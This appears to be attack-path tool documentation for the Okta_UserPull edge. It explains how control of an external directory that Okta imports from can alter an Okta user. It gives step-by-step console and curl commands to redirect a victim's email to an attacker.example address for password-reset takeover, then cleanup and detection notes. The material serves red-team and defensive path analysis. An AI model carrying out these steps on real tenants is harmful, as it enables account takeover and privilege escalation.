

## General Information

The non-traversable Okta_UserPull edges represent user import relationships from external applications or directories to Okta.



## Abuse Info

This edge describes import from an external application into an Okta user. An attacker who controls the source application can influence the destination Okta user when that application is authoritative for imported users, profile attributes, lifecycle state, or group membership. The edge is non-traversable because import does not automatically grant authentication as the destination user, but it can prepare or complete privilege escalation when imported attributes drive access.

Useful abuse targets include login, email, username, department, manager, cost center, status, and group-related attributes consumed by profile mappings or group rules. Changing these values can affect password reset routing, app assignments, sign-on policies, group rules, and downstream provisioning.

Using the source application and Admin Console:

1. Gain administrative control of the source application, external directory, or connector that Okta imports from.
2. Identify the source-side account mapped to the destination Okta user.
3. Change source-side attributes that Okta imports into the destination user, such as email, login, department, manager, title, or status.
4. If the path depends on group rules, change source-side group membership or mapped attributes so the destination user enters the desired Okta group.
5. In Okta, open **Applications** > **Applications** and select the source application.
6. Run an import if the connector supports manual import, or wait for scheduled import.
7. Review and confirm staged imports if the integration requires an approval step.
8. Verify the destination Okta user was updated, then use the resulting group, assignment, reset, or policy path.

Using source and Okta APIs:

1. Set variables for the source API, Okta org, source application, source user, and destination Okta user.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export SOURCE_API_BASE="https://source.example.com/api"
    export SOURCE_API_TOKEN="REDACTED_SOURCE_TOKEN"
    export SOURCE_APP_ID="0oa..."
    export SOURCE_USER_ID="src-user..."
    export DEST_OKTA_USER_ID="00u..."
    export ORIGINAL_EMAIL="alice@contoso.com"
    export TEMP_EMAIL="alice-reset@attacker.example"
    ```

2. Capture the destination Okta user's current state.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, email: .profile.email, department: .profile.department}'
    ```

3. Update the authoritative source-side user. Replace the endpoint and body with the source application's official user API and the attributes that are mapped into Okta.

    ```bash
    curl -i -sS -X PATCH \
      -H "Authorization: Bearer $SOURCE_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"email\":\"$TEMP_EMAIL\"}" \
      "$SOURCE_API_BASE/users/$SOURCE_USER_ID"
    ```

4. Trigger import from the Admin Console if the connector does not expose a documented Management API import trigger. Some integrations expose connector-specific import APIs, but there is no single Okta Management API endpoint that starts every application's user import.

5. Verify that the destination Okta user reflects the imported source value.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, email: .profile.email, department: .profile.department}'
    ```

6. If the imported value should trigger group rules or app assignments, enumerate the destination user's groups.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID/groups" \
      | jq -r '.[] | [.id, .type, .profile.name] | @tsv'
    ```

7. Continue with the edge that the imported change enables. For example, use the new email to receive a reset, use new group membership to launch a group-assigned app, or use changed profile attributes to satisfy a sign-on policy.

`Okta_UserPull` by itself does not prove password control. Pair it with `Okta_PasswordSync`, `Okta_IdentityProviderFor`, `Okta_InboundSSO`, `Okta_ResetPassword`, or another authentication edge when the path requires logging in as the destination user.

## Cleanup after Abuse

Cleanup for `Okta_UserPull` means restoring the authoritative source-side user, importing again, and removing any Okta profile, group, assignment, or session state created by the temporary imported values.

Cleanup using Admin Console:

1. Restore the source-side user attributes, lifecycle state, and group membership in the external application or directory.
2. In Okta, open the source application and run an import if the integration supports manual import.
3. Review and confirm staged import changes.
4. Open **Directory** > **People** and verify the destination Okta user's profile and lifecycle state have reverted.
5. Remove any temporary group memberships or application assignments that did not revert automatically.
6. Revoke sessions if the temporary imported values affected sign-on or authorization.

Cleanup using API:

1. Restore the source-side user attribute. Replace the endpoint with the source application's official API.

    ```bash
    curl -i -sS -X PATCH \
      -H "Authorization: Bearer $SOURCE_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"email\":\"$ORIGINAL_EMAIL\"}" \
      "$SOURCE_API_BASE/users/$SOURCE_USER_ID"
    ```

2. After import runs, verify the Okta user has the restored value.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, email: .profile.email, department: .profile.department}'
    ```

3. If Okta retains a temporary group membership that should not remain, remove it.

    ```bash
    export TEMP_GROUP_ID="00g..."

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TEMP_GROUP_ID/users/$DEST_OKTA_USER_ID"
    ```

4. If Okta retains a temporary app assignment, remove it.

    ```bash
    export TEMP_APP_ID="0oa..."

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TEMP_APP_ID/users/$DEST_OKTA_USER_ID"
    ```

5. Revoke sessions and OAuth tokens for the destination user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID/sessions?oauthTokens=true"
    ```

## Opsec Considerations

Okta import jobs, user profile updates, account linking, and group-rule driven changes are auditable. The source application or directory also logs the authoritative change that caused the imported Okta state.

Changing email, login, manager, department, or lifecycle state on a privileged user shortly before a password reset, group assignment, or application launch is highly correlated. If the import workflow stages changes, defenders may see the pending diff before it is approved.

## References

- [Okta Applications API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Application/)
- [Okta User API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/User/)
- [Okta Group API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/)
- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta Profile Mappings API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ProfileMapping/)
- [Okta SCIM concepts](https://developer.okta.com/docs/concepts/scim/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
